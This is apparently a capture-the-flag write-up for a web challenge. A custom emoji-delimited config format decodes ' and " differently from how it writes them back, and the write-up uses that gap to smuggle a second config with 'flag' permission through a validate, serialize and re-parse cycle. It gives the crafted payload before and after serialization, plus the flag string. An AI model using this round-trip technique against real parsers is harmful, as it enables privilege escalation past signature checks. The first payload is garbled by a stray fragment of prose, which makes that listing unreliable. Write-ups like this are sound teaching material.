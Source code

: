 # Nom du défi

## Write-up

This is a round trip serialization vulnerability. What should be observed is at l.205 in config.go, ' and " are decoded as start quotes, but the WriteQuote function at l.74 in config.go only writes them as ".

Since their is a difference in serializing and deserializing, if the the tool deserialize --> check validity -> serialize -> deserialize a config, then we might be able to create a config that would be invalid in the check validity step, but is only after the second deserialize.
The tool deserialize a config on '/api/upload_config', serialize on '/api/logout' and deserialize again on '/api/login'.

We want the Flag permissions to view the flag. Here is a config which uses the what_a_website property to hold another config using the 2 quotes ('") and finishes with a comment start. On first deserialize, the parser consider what_a_website as a simple string.

```yaml
::userℹ️::
my♥️🍏a
what_a_website🍏b'"
🍎
::permissions::
write🍏True
read🍏False
flag🚩🍏True
🍎
::✍️signature✍️
method🍏sha256
hash🍏%s
🍎
::URL::s start quotes, but the Writ
::endpoint::🍏c
💬'
🍎
::permissions::
write🍏True
read🍏False
flag🚩🍏False
🍎
::✍️signature✍️
method🍏sha256
hash🍏%s
🍎
::URL::
::endpoint::🍏c
```

After serialization tho, it would look like this:

```yaml
::userℹ️::
my♥️🍏a
what_a_website🍏b""
🍎
::permissions::
write🍏True
read🍏False
flag🚩🍏True
🍎
::✍️signature✍️
method🍏sha256
hash🍏%s
🍎
::URL::
::endpoint::🍏c
💬'
🍎
::permissions::
write🍏True
read🍏False
flag🚩🍏False
🍎
::✍️signature✍️
method🍏sha256
hash🍏%s
🍎
::URL::
::endpoint::🍏c
```

Where what_a_website value is b with an empty quote and the end of the config is escaped using the comment.

Finally, we need to fix the hash function which need to be valid for both config.

## References

- https://portswigger.net/research/saml-roulette-the-hacker-always-wins
- https://mattermost.com/blog/securing-xml-implementations-across-the-web/

## Flag

`flag-R0undTripS3ri41iz4ti0nIsW4k_ee696fb1`

